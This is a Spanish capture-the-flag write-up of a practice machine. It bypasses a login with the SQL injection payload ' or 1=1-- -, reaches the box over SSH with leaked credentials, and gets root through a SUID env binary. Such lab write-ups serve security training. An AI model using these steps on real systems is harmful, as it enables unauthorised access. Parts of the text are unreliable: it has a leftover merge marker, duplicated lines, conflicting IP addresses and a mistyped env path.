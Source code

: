 # Información de la Máqina
    ## Nombre: Injection
    ## Tipo: DockerLabs
    ## IP: 127.17.0.2
    ## Objetivo: Escalada de Privilegios a root

# 1.- Enumeración Inicial
Al acceder al servicio web en el puerto 80, se encuentra un formulario de login.
### Dominio Web:
![Dominio_Web](Injection_Dominio_Web.png)
### Pagina Web:
![Pagina_Web](Injection_Dominio_Web_Pagina.png)

# 2.- Explotación
Se prueba una Injección SQL clásica en el campo username:
```vbnet
' or 1=1-- -
```

![Injeccion_SQL](Injection_Dominio_Web_Injeccion_SQL.png)
Con cualquier contraseña, el login se bypassa con éxito.
El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](Injection_Dominio_Web_Muestra_Contrasena.png)
=======
![Injeccion_SQL](capturas/Injection_Dominio_Web_Injeccion_SQL.png)

### Con cualquier contraseña, el login se bypassa con éxito.
### El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](capturas/Injection_Dominio_Web_Muestra_Contrasena.png)

### Evidencia: Contraseña Guardada en:
```bash
Puntos_de_Encuentro/Password_Dylan.txt
```

# 3.- Movimiento lateral
Con las credenciales obtenidas, se establece conexión SSH:
```nginx
ssh dylan@172.17.0.2
```
![SSH](Injection_SSH_Completado.png)
Acceso exitoso como el usuario dylan

# 4.- Escalada de Privilegios
Se enumeran los binarios con bit SUID:
```javascript
find / -perm -4000 2>/dev/null
```
![Numeracion_Binarios](Injection_Escalado_Privilegios_2.png)
Se detecta /usr/bin/env con privilegios elevados.
### Ejecución del binario para escalar:
```bash
/src/bin/env /bin/sh -p
```
![Acceso_Root](Injection_Escalado_Privilegios_3_Final.png)
### Evidencia guardada en:
```bash
Puntos_de_Encuentro/Esclado_Privilegios.txt
```

# 5.- Resultado Final
Acceso root conseguido:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusiones
> La máquina es vulnerable a un SQL Injection que permite burlar la autenticación. 
> Las credenciales expuestas facilitan acceso vía SSH. 
> La presencia de un binario SUID (env) mal configurado permite la escalada directa a root. 
